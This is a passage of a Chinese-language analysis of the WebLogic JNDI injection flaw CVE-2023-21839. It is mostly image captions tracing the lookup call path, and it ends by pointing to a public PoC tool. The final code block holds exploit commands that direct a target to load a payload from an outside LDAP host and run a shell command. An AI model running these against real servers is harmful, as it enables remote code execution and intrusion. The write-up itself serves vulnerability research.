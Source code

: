 ![image-20230629133507474](images/33.png)

![image-20230629133518187](images/34.png)

## 交互过程

我们从本地脚本开始分析

![image-20230629134600996](images/35.png)

实例化InitialContext的时候，传入了environment

![image-20230629134638445](images/36.png)

获取到环境配置，调用`getDefaultInitCtx`方法，调用`NamingManager.getInitialContext`获取上下文器

![image-20230629134711284](images/37.png)

跟进

![image-20230629134728291](images/38.png)

获取到了factory

![image-20230629134758865](images/39.png)

返回调用`WLInitialContextFactory.getInitialContext`方法，获取到了上下文实现类WLContextImpl

![image-20230629134900015](images/40.png)

接下来调用lookup方法

![image-20230629135017504](images/41.png)

![image-20230629135033153](images/42.png)

调用node的lookup方法，这里的node即是stub服务器，即向远程服务器通信，进行一次RPC调用

![image-20230629135225719](images/43.png)

接下来就是weblogic对t3协议传过来数据的处理流程 

# 利用工具

也可以用4ra1n编写的工具

https://github.com/4ra1n/CVE-2023-21839

本`PoC`是针对`CVE-2023-21839`编写的，实际上同时覆盖了`CVE-2023-21931`和`CVE-2023-21979`。因为这三个漏洞触发机制相同，且补丁方式相同，所以只要存在一个，那么其他两个也存在

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A "47.93.248.221" -C "touch /tmp/2023Test"

./CVE-2023-21839 -ip 47.93.248.221 -port 7001 -ldap ldap://47.93.248.221:1389/jctjhz
```
